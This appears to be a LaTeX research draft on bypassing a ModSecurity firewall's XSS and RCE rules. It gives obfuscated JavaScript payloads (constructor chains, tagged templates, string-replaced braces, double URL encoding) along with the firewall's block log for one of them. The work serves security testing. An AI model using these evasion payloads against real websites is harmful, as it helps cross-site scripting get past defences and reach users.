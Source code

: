 weird unicode: tried using
\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
console.log(encodeURIComponent('[][`constructor`][`constructor`]`a\uFE69{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`"`][0]+`Oneconsult`+[`"`][0]+[open+[]][0][14]}```'))

but result is

{\t\"test2\": \"[][`constructor`][`constructor`]`a__{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`\"`][0]+`Oneconsult`+[`\"`][0]+[open+[]][0][14]}```\"}

tried using \u0000 - \u0009, \u2028, \u2029 but that makes the payload invalid. would work in the case when some characters are filtered first by the application, like linebreaks
\end{lstlisting}

in contrary to not using \verb|()|, a payload thats not using any \verb|{}| but still allows for tagged template literals or other usages of \verb|{}| can be created using string replace. the example payload in Listing~\ref{lst:stringreplaceblocked} is being blocked by the modsecurity firewall:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=blocked for \$\{\} example, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput${2+2}`')();</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

if one uses a string replace strategy like mentioned in \ref{sec:stringreplace}, a payload in the form of

\begin{lstlisting}[style=basicStyle, caption=string replace to evade {} detection, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro' + 'mpt`seeValueInInput$' + [open + []][0][16] + '2+2' + [open + []][0][36] + ':`')();
\end{lstlisting}

successfully evades the firewall.



on usage of double url encoding (see Listing~\ref{lst:doubleurlencodedexample}), the above mentioned rule with message  does no longer trigger. the characters \verb|alert(| still trigger . substituting \verb|alert()| with \verb|prompt()| and using a tagged template literal instead of calling with \verb|()| will allow to successfully pass a payload that evades detection and is able to display the template parameter. however, this payload would not be valid unless the target performs multiple step url decoding.

\begin{lstlisting}[style=basicStyle, caption=url encoded example pass, label={lst:doubleurlencodedexample}]
encodeURIComponent(encodeURIComponent('alert(`${new Date()}`)'))
=
alert(%2560%2524%257Bnew%2520Date()%257D%2560)
\end{lstlisting}
